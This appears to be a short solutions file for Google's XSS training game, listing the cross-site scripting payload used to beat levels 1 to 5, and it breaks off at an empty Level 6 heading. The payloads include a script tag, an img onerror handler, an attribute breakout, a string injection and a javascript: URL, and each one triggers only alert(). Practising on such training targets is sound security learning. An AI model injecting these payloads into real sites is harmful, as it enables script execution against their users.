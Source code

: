 # https://xss-game.appspot.com/

## Level 1
Insert
`<script>alert();</script>`
inside the input text box.

## Level 2
Insert
`<img src="asdgf.png" onerror="javascript:alert();" />`
inside the input text box.

## Level 3
Insert
`'onerror="alert();"`
into the URL bar after the #.

## Level 4
Insert
`1}}'); alert();('{{`
inside the input text box.

## Level 5
Click "Sign up", then insert
`javascript:alert();`
in the URL bar after
`next=`
in place of
`confirm`,
then click "Go", then click "Next".

## Level 6

